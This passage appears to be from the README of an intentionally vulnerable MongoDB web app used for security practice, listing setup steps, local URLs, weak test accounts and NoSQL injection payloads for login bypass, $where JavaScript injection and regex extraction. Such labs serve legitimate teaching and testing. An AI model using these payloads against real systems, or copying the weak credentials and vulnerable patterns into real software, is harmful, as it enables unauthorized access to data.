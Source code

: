 3. **Initialize database:**
   ```bash
   python setup_mongodb.py
   ```

4. **Run the application:**
   ```bash
   python vulnerable_app_mongodb.py
   ```

## 🌐 Access URLs

- **Main Application**: http://localhost:8082
- **Admin Panel**: http://localhost:8082/admin
- **MongoDB Info**: http://localhost:8082/mongo-info
- **Health Check**: http://localhost:8082/health

## 🎯 Vulnerability Testing

### Test Accounts

| Username | Password | Role |
|----------|----------|------|
| admin    | admin123 | Administrator |
| user     | password | Regular User |
| guest    | guest    | Guest User |

### NoSQL Injection Examples

1. **Authentication Bypass** - Login form:
   ```json
   Username: {"$ne": null}
   Password: {"$ne": null}
   ```

2. **MongoDB Operator Injection** - Products search:
   ```
   /products?search={"$where": "this.price > 500"}
   ```

3. **Regex Injection** - Data extraction:
   ```
   /products?filter={"$regex": ".*"}
   ```

4. **JavaScript Injection** - Using $where operator:
   ```json
   {"$where": "function() { return this.username.length > 0; }"}
   ```

### Attack Vectors

| Endpoint | Vulnerability | Example Payload |
|----------|---------------|-----------------|
| `/login` | Authentication Bypass | `{"$ne": null}` |
| `/products` | NoSQL Injection | `{"$where": "1==1"}` |
| `/login` | Operator Injection | `{"$gt": ""}` |
| `/products` | Regex Injection | `{"$regex": ".*"}` |
